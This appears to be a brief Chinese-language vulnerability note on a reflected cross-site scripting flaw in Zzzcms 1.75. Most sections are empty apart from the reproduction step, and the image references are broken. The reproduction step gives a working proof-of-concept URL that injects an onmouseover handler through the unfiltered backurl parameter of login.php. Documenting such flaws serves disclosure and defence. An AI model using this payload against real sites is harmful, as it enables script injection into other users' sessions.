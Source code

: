 Zzzcms 1.75 xss漏洞
===================

一、漏洞简介
------------

二、漏洞影响
------------

Zzzcms 1.75

三、复现过程
------------

    http://www.0-sec.org/plugins/template/login.php?backurl=1%20onmouseover%3dalert(9516)%20y%3d

该onmouseover事件在移动到登录注册时会触发

![](./resource/Zzzcms1.75xss漏洞/media/rId24.png)

对传入的backurl并没有做任何防护

image
